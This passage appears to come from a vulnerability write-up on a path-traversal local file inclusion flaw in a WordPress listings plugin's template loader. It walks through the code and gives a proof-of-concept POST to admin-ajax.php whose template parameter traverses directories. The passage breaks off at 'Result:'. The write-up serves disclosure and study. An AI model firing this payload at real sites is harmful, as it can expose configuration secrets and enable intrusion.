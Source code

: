 ```php {filename="templates.php v1.4.71" hl_lines=[9,10,11,12,13]}
	return apply_filters( 'stm_listings_locate_template', $located, $templates );
}
```

This function iterates over `$templates` to locate a valid template path:

* Appends `.php` if missing.

* If the path contains `'partials/'`, it calls `locate_template( $template )`.

* Otherwise, it looks inside `'listings/'`.

* If still not found, it checks directly inside the plugin path:

  ```
  STM_LISTINGS_PATH . '/templates/' . $template
  ```

* Once a valid file is found, the loop breaks and returns that path.

[`locate_template()`](https://developer.wordpress.org/reference/functions/locate_template/) is a **WordPress core** function that searches the active theme for the given template file. If found, it returns the full path; otherwise, it returns an empty string — meaning we need to reference an existing file.

👉 The result is returned via the filter `stm_listings_locate_template` as `$locate`.

{{< figure src="search1.png" caption="No filter registered for `stm_listings_locate_template`" >}}

No filters are registered for this hook, meaning `$locate` is returned unchanged.

Therefore, the conditions required for exploitation are:

* The `template` parameter includes `partials/` or `listings/`.
* Sufficient `../` traversal so that `locate_template()` returns empty but `include` does not error when the path exists.

## Exploit

### Proof of Concept (PoC)

1. Add a simple test code to `wp-config.php`:

```php
<?php
echo "payload"
```

2. Send a POST request containing the LFI payload:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
action=grid_tabs_widget&tab_type=popular&per_page=8&template=/partials/../../../../../payload&img_size=&security=d15dd83890
```

**Result:**
